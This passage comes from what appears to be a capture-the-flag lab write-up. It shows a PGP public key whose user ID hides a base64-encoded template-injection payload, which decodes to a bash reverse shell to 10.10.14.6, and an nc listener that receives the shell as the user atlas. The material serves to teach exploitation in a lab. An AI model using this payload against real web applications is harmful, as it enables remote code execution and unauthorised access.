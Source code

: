```
yy/2JxwvyL1HYXS/v5sXb9pZAVk3GP4rUSTS7itugPqE/MzhegBwHiZa3HgSBxq5
C23j5BIQOdGrdYqceVWHtxSqYu/6hTo508+lpdqZZ9temaaz2l063GD0ck0jklKT
txeJyHUDmsDgRbDvC6kxCmg4coFRJoWw47+b2fIY3Mw5rMfq9vmnCfhAPxb/dCwB
Hc27MhA8wywNbutge9nfemgdlyCQ65C3UwbUCXH1ERqcJrbNlFb1ejmst6SjwU2Y
wXC4PweADTsCfu1514sfGJI0DMWFoxMH5gEgHySoAqNandJGsCr4WXFJhXQzVQOc
dMZQh8DS3NveD+SquTKddo4CYe3uhFaXmKn/htnzdIBeFcNYKqjegXpd5nSc5Rg+
yHxJIF1HxDlDjtkAEQEAAbSae3sgbmFtZXNwYWNlLl9faW5pdF9fLl9fZ2xvYmFs
c19fLm9zLnBvcGVuKCdlY2hvIFltRnphQ0FnTFdrZ1BpWWdMMlJsZGk5MFkzQXZN
VEF1TVRBdU1UUXVOaTgwTkRNZ01ENG1NU0FLIHwgYmFzZTY0IC1kIHwgYmFzaCcp
LnJlYWQoKSB9fSA8cmNlLXJldkBzc2EuaHRiPokB1AQTAQoAPhYhBGj073BAkjNz
9OaogynzKPrkil2SBQJlU7gZAhsDBQkDwmcABQsJCAcCBhUKCQgLAgQWAgMBAh4B
AheAAAoJECnzKPrkil2S1UoL/2K2unHJpZtQhLmUXqWkUnDGgcJxtSR55NSE08E7
CgyUG7dcwcruf5jJjXeGGZpQcSOmhOuRUdZYLOPXkjF9EWhcWHzPw4+cOlgnmZxa
F63Cu2aSR5L/0BwZOKUw9l6Ruk2q+dFzoT+wwOw1QuPZ8t6VcvCVLDiKJ71tiSgk
nllNVGU0nsFNF/++jIjzl6Fbtj05ljfmNdboIZRlGuH6Bi9mh5wU1txc3+eTJ8/I
S27kUlkSBuRDYJkx2cQrW+JOQrBF0AN8+z4Ku30yDS6p8lqTDk8iCWbLjDK19FIE
wVOV12vMkLQVEsv39PPTHZkjmPK1BOEpGi2f8ZTF2ipK/lgXUrAGq0cpxJFurhBm
U0ONNmlwTnPR2ircAaR+TtEL9BoSHDs9mRKe028u/YVZxD+FDfvEWsWOZIrJvZjG
MEoH89R4SJGVOtSzXqCP5cgzS/1B1qc8yY2ymyAwmjEqVWSU8hm7JokS6ApNK+0M
OSv4eA8KHOW/VfHusaYpKR2Ai7kBjQRlU7gZAQwAtBsJc4ZM8JvfNub9IyTxP7MK
M1Kq3RDDK9ghKN2SrecvxsSZ4o+8hiYer7aBevxRfczM6hEUIIFSO4e81203NWQc
GoE/BthFK89uLMCHsL/raVIhmc2u61u2Oz617gy+9fgtgKsqfshnGjLNJ4TZNW8i
730jvQ+5Tf65IMLdclwItJ3YUFrEnnELymV3T30cFnx3ou6v9ESgrZrntsxjR3f8
GRLzYPnB4nQ89b6bIfoE/cV4rv3ul7AErK9T2RRRO8HHqcHVWcB7Hnij063zXsNi
pFJKkAxASNfhQHOFHJBuiCnrM2/HeeT4nnr/9lK+fkxo0uI6dfFAaRYac95iHX1R
uMTGFHzWW0Aw/CTaj+dFjZX8A6wFJ/kwvaWh/woXN2uL7UtyvLyhsDIXzu3Deyhp
Vv3V867L1wnEaCuvYl2PQkMSgQ7TPKX8VccrSLWiuc/aBeKDbENt6pqOLGn+gPAN
EVigVQjlIEkwHHBTHIeT7AzlhiSUlCdHknTgTJq9ABEBAAGJAbwEGAEKACYWIQRo
9O9wQJIzc/TmqIMp8yj65IpdkgUCZVO4GQIbDAUJA8JnAAAKCRAp8yj65IpdkoZD
DACNIrLtVsTYXCWvkNZAmQizlcylIObfRwqwbTfOCmTDpvUH+kgSzW4YgBb9Xf1f
e6sJeI9H255L5ibz2I5FcJe27BBjYlGH7pYX3KFvPIK+9SV7OLh6/CG2Ez+Q49Qe
mUSYdlLRlb6A+42TK/3RXkyTiD6S0jhPYBdxPkAcclxq7IiJoeah14z7nsVgSS8R
wxwvr4jBLEJcidhHx6xnXOjxLGyZxLvwms1YPRUAWQI7WinqLKekvP9Lyzw8yftu
O3Z/5pjNZKOdocuCxs8S5XGs7shQmv1M3fiYT3JuzDZ00nBJoRhY/sWIperaQOd1
3O6Vpan63QV7Hatadg+eSmkpf2FOaMb2VEoehxDPFyut3JbJSG0pIXAzcZbwdcXP
K8J4ckXxJheyUwP+qjddR2rbz89SDwVHmB1Y4tx2oTxNWOWpYkpZSmAxeDLJOpTa
fyNyB5rUFFnOdwy0q5dziMOn43QdlYRtzATiJbAldQe5ge5Yelte842DKEhrPSHQ
ARc=
=GTRb
-----END PGP PUBLIC KEY BLOCK-----

```

With `nc` listening, I’ll submit these to the site and get a shell as atlas:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.218 49352
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
/usr/local/sbin/lesspipe: 1: dirname: not found
atlas@sandworm:/var/www/html/SSA$ id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)

```
